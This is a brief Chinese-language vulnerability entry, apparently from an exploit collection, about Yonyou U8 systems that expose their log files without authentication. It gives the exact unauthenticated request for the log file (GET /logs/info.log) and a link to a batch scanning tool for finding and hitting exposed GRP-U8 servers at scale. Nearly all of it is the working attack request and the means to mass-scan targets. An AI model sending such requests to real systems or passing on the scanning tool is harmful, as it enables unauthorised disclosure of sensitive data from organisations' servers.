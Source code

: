 漏洞描述：用友U8系统存可直接访问log日志，泄露敏感信息

批量扫描工具:https://github.com/MzzdToT/HAC_Bored_Writing/tree/main/unauthorized/%E7%94%A8%E5%8F%8BGRP-U8

GET /logs/info.log HTTP/1.1
